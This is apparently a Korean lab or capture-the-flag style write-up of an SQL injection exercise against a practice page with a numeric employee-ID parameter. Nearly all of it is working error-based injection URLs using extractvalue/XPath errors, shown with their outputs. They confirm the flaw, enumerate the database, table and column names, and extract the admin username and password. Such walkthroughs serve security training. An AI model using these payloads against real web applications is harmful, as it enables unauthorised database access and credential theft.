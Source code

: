 ## Exercise2
| 이 문제는 매개변수값에 홑따옴표(')를 제출하면 데이터베이스 구문 오류 메시지를 표시하지만 문제1과 동일한 방법을 이용하면 원하는 데이터를 추출할 수 없습니다. 이 문제는 매개변수가 데이터베이스의 숫자 타입 컬럼과 연결되어있음을 유의하세요. 

1. 홑 따옴표 없이 산술식을 이용하여 초기 매개변수 3 값과 동일한 값 제출
```bash
https://.../sqli_err_ex2.php?emp_no=4-1

Employee Info
ID	Name	Gender	Birthday
3	Faye Valentine	F	1944-02-14

동일한 값 출력 -> SQL Injection에 취약하다고 판단됨.
```

2. XPath 기법을 이용해 웹 애플리케이션과 통신 중인 데이터베이스명 열거
```bash
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,schema_name)%20FROM%20information_schema.schemata%20LIMIT%203,1)))--

Employee Info

Error: XPATH syntax error: '::mydb'
```

3. 데이터베이스명을 찾았으니, 테이블명을 열거
```bash

https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,table_name)%20FROM%20information_schema.TABLES%20WHERE%20table_schema=%27mydb%27%20LIMIT%203,1)))--

Employee Info

Error: XPATH syntax error: '::users'
```

4. 칼럼명 추출
```bash
# user_id
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_SCHEMA=%27mydb%27%20AND%20TABLE_NAME=%27users%27%20LIMIT%201,1)))--

Employee Info

Error: XPATH syntax error: '::user_id'

# password
https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_SCHEMA=%27mydb%27%20AND%20TABLE_NAME=%27users%27%20LIMIT%203,1)))--

Error: XPATH syntax error: '::password'
```

5. 데이터 추출
```bash
# admin

https://.../sqli_err_ex2.php?emp_no=3%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(user_id,0x3a,password)%20FROM%20mydb.users%20LIMIT%200,1)))--

Employee Info

Error: XPATH syntax error: ':admin:pass'
```
